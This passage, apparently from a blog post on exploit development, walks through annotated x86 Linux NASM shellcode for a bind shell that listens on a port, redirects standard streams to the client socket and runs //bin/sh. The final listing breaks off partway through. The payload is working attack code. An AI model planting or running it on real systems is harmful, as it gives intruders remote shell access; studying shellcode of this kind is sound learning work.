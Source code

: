 {% highlight nasm %}
        push eax                ; push NULL onto stack to termins //bin/sh
        push 0x68732f6e         ; push //bin/sh in reverse onto the stack
        push 0x69622f2f         ; see above
        mov  ebx, esp           ; move address of //bin/sh into EBX (execve's 1st parameter)
        push eax                ; this serves two purposes 1, to use for EDX (we will pass no
                                ; environment to the shell and also as part of the array of
                                ; args that we will pass to as the 2nd arg of execve
        mov  edx, esp           ; see above
        push ebx                ; ESP now points to and array of args [address of //bin/sh, 0x00]
                                ; these will act as the args to //bin/sh
        mov ecx, esp            ; setup the 3rd argument
        mov al, 0x0b            ; set the EAX register to the execve sys call number
                                ; using al to remove any null bytes
        int 0x80                ; make the call
{% endhighlight %}

Right all done! Below is the code in all its glory!!

{% highlight nasm %}
global _start
section .text

_start:
        xor eax, eax            ; Zero out registers
        xor ebx, ebx
        xor ecx, ecx
        xor edx, edx
        xor edi, edi

        ; Setup Socket call
        mov bl, 0x2             ; AF_INET
        inc cl                  ; SOCK_STREAM = 1 - Leave EDX 0 for IP
        mov ax, 0x0167          ; Socket syscall number
        int 0x80                ; make call

        xchg edi, eax           ; store socketfd

        ; Now call bind
        push edx                ; INADDR_ANY - IP to bind to in soccaddr_in
        push word 0x8813        ; Port in Network byte order
        push word bx            ; Address Family AF_INET
        mov ecx, esp            ; get pointer to structure
        xchg ebx, edi           ; put server socket fd into ebx (use xchg to save a byte)
        mov dl, 0x10            ; set struct len
        mov ax, 0x0169          ; bind syscall
        int 0x80                ; make call

        ; Call listen
        xchg ecx, edx           ; set up the backlog parameter
        mov ax, 0x016B          ; set syscall number for listen
        int 0x80                ; make the call

        xor ecx, ecx            ; zero out registers
        mov ax, 0x016c          ; set accept syscall
        int 0x80                ; make the call
        xchg ebx, eax           ; store the client socket fd in ebx so we can use for the dup call

        mov cl, 0x2
loop:
        mov al, 0x3f            ; setup dup2 call
        int 0x80                ; call dup2
        dec ecx                 ; decrement the loop counter
        jns loop                ; if the sign flag is not set then repeat the loop
                                ; this will tie our stdin, out and error to the client socket

        xor  eax, eax
        push eax                ; push NULL onto stack to termins //bin/sh

[socket]: https://linux.die.net/man/7/socket  "Socket Man page docs"
[bind]: https://linux.die.net/man/7/bind  "Bind Man page docs"
[listen]: https://linux.die.net/man/7/listen  "listen Man page docs"
[bind]: https://linux.die.net/man/7/bind  "bind Man page docs"
[accept]: https://linux.die.net/man/7/accept  "accept Man page docs"
[dup2]: https://linux.die.net/man/7/dup2  "dup2 Man page docs"
[execve]: https://linux.die.net/man/7/execve  "execve Man page docs"